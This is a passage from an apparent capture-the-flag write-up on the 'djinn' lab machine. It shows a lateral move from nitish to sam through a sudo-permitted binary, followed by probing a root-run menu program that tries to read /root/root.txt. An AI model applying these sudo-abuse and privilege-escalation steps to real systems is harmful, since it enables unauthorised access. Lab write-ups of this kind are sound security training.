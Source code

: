 ## Lateral move (nitish -> sam)

Playing a bit with the executable and the `cmd` command led to succesfully connecting as `sam` by providing `1` to the `cmd` flag:

~~~
nitish@djinn:/usr/bin$ sudo -u sam /usr/bin/genie -cmd 1
my man!!
$ id
uid=1000(sam) gid=1000(sam) groups=1000(sam),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd),113(lpadmin),114(sambashare)
$ 
~~~

Let's check sam's privileges:

~~~
sam@djinn:/home/sam$ sudo -l
Matching Defaults entries for sam on djinn:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sam may run the following commands on djinn:
    (root) NOPASSWD: /root/lago
~~~

We can run `/root/lago` as `root` without password. Here is what the program looks like when run:

~~~
sam@djinn:/home/sam$ sudo /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:1
Working on it!! 
sam@djinn:/home/sam$ sudo /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:2
Choose a number between 1 to 100: 
Enter your number: 50
Better Luck next time
sam@djinn:/home/sam$ sudo /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:3
Enter the full of the file to read: /root/root.txt
Slow clap for this hacker right here
sam@djinn:/home/sam$ sudo /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:4
work your ass off!!
sam@djinn:/home/sam$ 
~~~
